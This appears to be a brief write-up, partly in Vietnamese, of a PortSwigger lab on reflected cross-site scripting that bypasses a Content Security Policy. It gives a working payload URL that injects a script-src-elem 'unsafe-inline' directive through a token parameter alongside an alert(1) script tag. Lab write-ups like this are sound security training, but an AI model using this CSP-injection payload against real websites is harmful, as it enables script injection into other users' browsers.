 # Target Goal: 

This lab uses CSP and contains a reflected XSS vulnerability.

To solve the lab, perform a cross-site scripting attack that bypasses the CSP and calls the alert function.

Please note that the intended solution to this lab is only possible in Chrome.

# Recon: 

Bài này có 1 lỗ hổng được phơi ra khá là hài đó là mình có thể can thiệp vào các rule được đặt ra của CSP 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/3e3b820b-4cfe-4430-b194-2caaf32997ad)

Tận dụng lỗ hổng này cùng với gợi ý của bài lab rằng chỉ tác động trên Chrome ta có [script-src-elem](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src-elem) có thể hiểu là nó cho phép trigger câu lệnh từ <script> tag

`https://0aea00c1036e3642804e6235007b00ba.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27`

![image](https://github.com/vanniichan/Portswigger/assets/112863484/dcf9defe-f853-488c-bd59-84773ba4da61)

# Flag: 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/9ca362d2-2259-42ff-a51e-f166ce170889)
